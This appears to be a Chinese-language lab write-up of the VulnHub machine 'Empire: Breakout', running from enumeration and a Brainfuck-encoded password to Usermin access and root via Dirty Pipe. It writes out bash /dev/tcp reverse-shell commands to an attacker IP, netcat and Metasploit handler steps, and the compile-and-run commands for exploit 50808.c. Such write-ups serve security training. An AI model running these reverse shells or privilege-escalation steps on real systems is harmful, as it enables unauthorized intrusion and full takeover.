# Breakout Writeup

這是一台來自 [VulnHub](https://www.vulnhub.com/entry/empire-breakout,751/) 的 Linux 靶機，名稱為 `Empire: Breakout`，由 `icex64 & Empire Cybersecurity` 發布於 `2021-10-21`。

## 目錄

- [Breakout Writeup](#breakout-writeup)
  - [目錄](#目錄)
  - [靶機基礎資訊](#靶機基礎資訊)
  - [攻擊鏈摘要](#攻擊鏈摘要)
  - [資訊收集](#資訊收集)
  - [解碼 Brainfuck 密文](#解碼-brainfuck-密文)
  - [取得 User Flag](#取得-user-flag)
  - [權限提升方法一](#權限提升方法一)
  - [權限提升方法二](#權限提升方法二)
  - [參考來源](#參考來源)

## 靶機基礎資訊

- 平台：VulnHub
- 靶機名稱：`Empire: Breakout`
- 作者：`icex64 & Empire Cybersecurity`
- 發布日期：`2021-10-21`
- 系列：`Empire`
- 難度：`Easy`
- 題目提示：作者說明此機器原本定位為 `Easy`，但若枚舉方向偏掉也可能感覺接近 `Medium`
- 目標：取得 `user flag` 與 `root flag`
- 下載檔名：`02-Breakout.zip`
- 作業系統：`Linux`
- 虛擬機格式：`VirtualBox - OVA`
- 網路設定：`DHCP enabled`，IP 會自動分配



## 攻擊鏈摘要

- 使用 `nmap` 與 `enum4linux` 枚舉 Web、SMB 與管理介面服務。
- 從 `80` port 首頁原始碼中發現 Brainfuck 密文，解碼後得到一組可用密碼。
- 搭配 SMB 枚舉得到的使用者 `cyber`，成功登入 `20000` port 的 `Usermin`。
- 先透過 `Upload and Download` 功能直接下載 `/home/cyber/user.txt`，取得 `user flag`。
- 再利用 `Usermin` 內建的 `Command Shell` 建立 shell，作為後續提權的起點。
- 最後可透過 Metasploit 的 `Dirty Pipe` 模組，或自行編譯本地提權 exploit，取得 `root` 權限。

## 資訊收集



- 先以 `nmap` 對目標主機進行掃描。
- 這次測試環境中的目標 IP 為 `172.20.10.3`。
- 掃描結果顯示目標開啟 `80`、`139`、`445`、`10000`、`20000` 等 port，其中 `139` 與 `445` 對應 `SMB` 服務。

```bash
nmap 172.20.10.3 -A
```



- `80` port 首頁本身資訊不多，但看起來像是故意留下線索的入口頁。



- 檢視首頁原始碼後，可以在底部找到一段特別的訊息：

```text
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
+++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

- 這段由 `+`、`-`、`<`、`>`、`[`、`]`、`.`、`,` 組成的內容，很像 Brainfuck 程式碼，值得後續解碼。



- `10000` port 提供的是 `Webmin` 登入介面。



- `20000` port 則是 `Usermin` 登入介面。



- 因為主機同時開啟 `SMB`，可以額外利用 `enum4linux` 蒐集帳號資訊。
- 枚舉結果中可辨識出一個可用使用者：`cyber`。

```bash
enum4linux 172.20.10.3 -a
```

## 解碼 Brainfuck 密文



- 將首頁原始碼中的內容交給 Brainfuck 解碼工具後，可以得到明文：
- 密碼：`.2uqPEfj3D<P'a-3`
- 這時就能把前一步枚舉出的帳號 `cyber` 與這組密碼組合起來測試。



- 測試後發現這組帳號密碼可成功登入 `Usermin`。



- 至此已取得一個可操作的低權限入口。

## 取得 User Flag



- 登入 `Usermin` 後，在 `Applications` 區塊可以找到 `Upload and Download` 功能。
- 這個介面不只可以上傳檔案，也能直接從伺服器下載指定路徑的檔案。



- 在 `Download from server` 分頁中，直接指定 `/home/cyber/user.txt` 即可下載使用者旗標檔案。



- 從檔案選擇視窗也可以看出目前使用者的家目錄為 `/home/cyber`，且目錄中確實存在 `user.txt`。



- 將檔案下載回主機後讀取內容，即可取得 `user flag`：
- `3mp!r3{You_Manage_To_Break_To_My_Secure_Access}`

## 權限提升方法一



- 取得 `user flag` 後，下一步是利用 `Usermin` 內建的 `Command Shell` 功能進一步操作系統。



- 先在介面內執行 `uname -a`，確認命令可以正常執行，也順便取得系統版本資訊。
- 可得知目標為 `Linux breakout 5.10.0-9-amd64`。

```bash
uname -a
```

- 接著在攻擊端開啟 `msfconsole`，使用 `multi/handler` 準備接收反向連線。

```text
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.20.10.2
set LPORT 4444
run
```

- 回到 `Usermin` 的 `Command Shell`，送出反向 shell 指令：

```bash
bash -i >& /dev/tcp/172.20.10.2/4444 0>&1
```

- 成功建立連線後，可先將 shell session 升級成較方便操作的 `meterpreter` session。
- 接著利用 `local_exploit_suggester` 檢查可用模組，這台機器可以使用 `cve_2022_0847_dirtypipe`。
- 下列流程把升級 session、枚舉提權模組、切換到 root session 的步驟整合在一起。實際 `session` 編號可能和本文不同，但操作概念一致。

```text
background
sessions -u 1

use post/multi/recon/local_exploit_suggester
set SESSION 2
run
```



```text
use exploit/linux/local/cve_2022_0847_dirtypipe
set SESSION 2
set LHOST 172.20.10.2
set LPORT 4444
run

sessions
sessions -i 3
execute -f /bin/sh -i -H
whoami
```

- 當 `whoami` 回傳 `root` 時，就代表提權成功。



- 最後讀取 `rOOt.txt`，取得 `root flag`：

```text
cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}
```

## 權限提升方法二


- 若不使用 Metasploit，也可以從 `Command Shell` 取得的系統版本資訊出發，自行尋找對應 exploit。



- 針對 `Linux kernel 5.10` 使用 `searchsploit` 搜尋時，可以看到 `50808.c` 這個 `DirtyPipe` 本地提權程式。

```bash
searchsploit linux kernel 5.10
```



- 先將 `50808.c` 或編譯後的執行檔透過 `Upload and Download` 功能上傳到目標的 `/tmp` 目錄。


- 接著再次透過 `Command Shell` 送出反向 shell 指令，讓我們從終端直接操作目標主機。

```bash
bash -i >& /dev/tcp/172.20.10.2/4896 0>&1
```



- 攻擊端用 `nc` 接收連線後，切到 `/tmp` 準備執行 exploit。

```bash
nc -lvnp 4896
cd /tmp
```


- 如果上傳的是原始碼，則需要先在本機編譯成靜態執行檔，再上傳到靶機：

```bash
gcc -static 50808.c -o shell
```



- 上傳後先補上執行權限，再指定 `/bin/su` 作為目標執行：

```bash
chmod +x ./shell
./shell /bin/su
```



- 成功後即可拿到 `root` shell，必要時再用 `pty.spawn` 升級成互動式 shell：

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
whoami
```

- 這條路最後同樣能取得 `root` 權限。

## 參考來源

- VulnHub: [Empire: Breakout](https://www.vulnhub.com/entry/empire-breakout,751/)
